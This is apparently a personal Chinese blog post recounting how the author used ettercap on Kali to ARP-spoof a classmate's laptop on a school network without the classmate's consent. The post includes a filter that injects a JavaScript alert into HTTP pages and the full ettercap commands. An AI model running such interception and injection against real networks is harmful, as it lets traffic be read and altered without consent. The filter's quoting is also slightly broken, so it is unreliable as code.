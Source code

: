 ```yaml
---
layout: post
title: 记一次非针对LGC的中间人攻击
excerpt: 真的是非针对哦(¬_¬)
date:   2016-09-13
tag:
  - hack
---
```


## 序
自从昨天9月12日停电以后，历二信竞队教室原本70Mbs的网络，莫名其妙的降到了10Mbs不到……网页大规模卡崩，ping baidu.com丢包严重。这对于历二信竞队来讲，简直就是一场灾难……  
  这差不多算是没了网，奥赛室一片死寂。Gengxin抬头望去，LGC居然还在看视频！！！  
  他在看视频！  
  在看视频！  
  看视频！  
  视频！  
  频！  
  ！  
这个就有点尴尬了……既然全教室的网这么慢，你还在看视频!Gengxin有点小愤怒。打开路由器管理界面，嗯……流量全在LGC那。很久以前就发现，LGC的小笔记本网卡似乎比我们的更好一点，在很远的地方也能收到wifi信号，并且……还是接近满格！如果让流量先经过Gengxin的渣渣网卡呢？\\(¬\_¬\)于是Gengxin默默的打开了自己的Kali虚拟机。  

## One
首先科普一下，什么是中间人攻击。  
中间人攻击（Man-in-the-middle attack，缩写：MITM）是指攻击者与通讯的两端分别创建独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。（以上引自[维基百科](https://zh.wikipedia.org/wiki/%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)）。简单的说，就是LGC电脑的流量都会流经Gengxin的电脑，而路由器和LGC的电脑都会傻傻的以为自己正在安全的连接对方。  
这里，Gengxin用了一个非常有名的多用途嗅探器——ettercap。其实如果不用这个工具的话，攻击的过程也十分简单，可以用一个Python脚本轻松实现——scapy库查看编辑数据包是十分方便的。  

## Two  

Kali系统下ettercap是预置的，所以我不需要额外的安装。
<figure>
  <a href="http://images2015.cnblogs.com/blog/831801/201609/831801-20160913211455070-1683114145.jpg"><img src="http://images2015.cnblogs.com/blog/831801/201609/831801-20160913211455070-1683114145.jpg"></a>
</figure>
好的，既然LGC在浏览网页，那就来个HTML注入好了。“Gengxin 想 ban 你 哦”。  
我们首先要写一个过滤脚本。  

{% highlight cpp %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Gengxin-NoEncoding");
        msg("就是不让你压缩Q'W'Q\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('Gengxin想ban你哦QWQ');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('Gengxin想ban你哦QWQ')');</script>");
    msg("成功注入Q'W'Q!!\n");
}  
{% endhighlight %}


这段代码第一个if块，是如果网页源码中有Accept-Encoding的时候，替换掉它（Accept-Encoding是声明浏览器支持的编码类型，在这里可以理解为请求压缩的意思）。第二个if块就是我们插入HTML的地方了。js代码里`alert("")`会使网页出现一个弹窗。这就是我要达到的目的。  

OK，把这段代码保存为`banLGC.filter`.   

接下来，编译我们刚刚的banLGC.filter脚本。代码如下：

~~~
etterfilter banLGC.filter -o banLGC.ef
~~~

接着，我们在路由器后台找到LGC的IP地址，然后用我们刚刚编译好的脚本，发起对LGC的中间人攻击

~~~
ettercap -i eth0 -Tq -M arp:remote /192.168.31.106// /192.168.31.1// -F banLGC.ef
~~~

然后在Gengxin的电脑上，成功的打印出了`成功注入Q'W'Q!!`

<figure>
  <a href="http://images2015.cnblogs.com/blog/831801/201609/831801-20160919114624871-1977932968.jpg"><img src="http://images2015.cnblogs.com/blog/831801/201609/831801-20160919114624871-1977932968.jpg"></a>
</figure>

猛然间，不远处的LGC发出了杠铃般的笑声————Gengxin！你要做什么！我网速是怎么了！！   

然后基友就一上午没有理我Q'A'Q  

最后Gengxin还是跟系又说明了情况，然后道了歉  

然后就没有然后了  
